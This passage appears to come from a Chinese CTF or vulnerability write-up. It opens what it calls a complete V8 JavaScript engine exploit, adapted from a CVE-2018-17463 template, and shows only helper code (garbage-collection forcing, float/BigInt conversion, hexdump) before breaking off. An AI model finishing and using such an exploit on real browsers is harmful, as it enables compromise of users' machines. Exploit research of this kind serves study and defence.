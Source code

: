 ## exp

完整的exp如下，前面的板子来自[这里](http://p4nda.top/2019/06/11/%C2%96CVE-2018-17463/)。

```plain
function gc() {
  /*fill-up the 1MB semi-space page, force V8 to scavenge NewSpace.*/
  for (var i = 0; i < ((1024 * 1024) / 0x10); i++) {
    var a = new String();
  }
}

function give_me_a_clean_newspace() {
  /*force V8 to scavenge NewSpace twice to get a clean NewSpace.*/
  gc()
  gc()
}

let floatView = new Float64Array(1);
let uint64View = new BigUint64Array(floatView.buffer);

Number.prototype.toBigInt = function toBigInt() {
  floatView[0] = this;
  return uint64View[0];
};

BigInt.prototype.toNumber = function toNumber() {
  uint64View[0] = this;
  return floatView[0];
};

function hex(b) {
  return ('0' + b.toString(16)).substr(-2);
}

// Return the hexadecimal representation of the given byte array.
function hexlify(bytes) {
  var res = [];
  for (var i = 0; i < bytes.length; i++)
    res.push(hex(bytes[i]));
  return res.join('');
}

// Return the binary data represented by the given hexdecimal string.
function unhexlify(hexstr) {
  if (hexstr.length % 2 == 1)
    throw new TypeError("Invalid hex string");
  var bytes = new Uint8Array(hexstr.length / 2);
  for (var i = 0; i < hexstr.length; i += 2)
    bytes[i / 2] = parseInt(hexstr.substr(i, 2), 16);
  return bytes;
}

function hexdump(data) {
  if (typeof data.BYTES_PER_ELEMENT !== 'undefined')
    data = Array.from(data);
  var lines = [];
  for (var i = 0; i < data.length; i += 16) {
    var chunk = data.slice(i, i + 16);
    var parts = chunk.map(hex);
    if (parts.length > 8)
      parts.splice(8, 0, ' ');
    lines.push(parts.join(' '));
  }
```